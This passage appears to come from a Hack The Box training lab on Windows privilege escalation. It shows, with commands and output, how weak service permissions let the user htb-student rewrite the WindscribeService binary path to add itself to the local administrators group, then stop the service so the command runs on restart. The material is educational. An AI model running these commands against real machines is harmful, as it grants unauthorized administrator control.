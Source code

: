 #### Check Local Admin Group

Checking the local administrators group confirms that our user `htb-student` is not a member.

```cmd-session
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
mrb3n
The command completed successfully.
```

#### Changing the Service Binary Path

We can use our permissions to change the binary path maliciously. Let's change it to add our user to the local administrator group. We could set the binary path to run any command or executable of our choosing (such as a reverse shell binary).

```cmd-session
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

#### Stopping Service

Next, we must stop the service, so the new `binpath` command will run the next time it is started.

Weak Permissions

```cmd-session
C:\htb> sc stop WindscribeService
 
SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
```

#### Starting the Service

Since we have full control over the service, we can start it again, and the command we placed in the `binpath` will run even though an error message is returned. The service fails to start because the `binpath` is not pointing to the actual service executable. Still, the executable will run when the system attempts to start the service before erroring out and stopping the service again, executing whatever command we specify in the `binpath`.
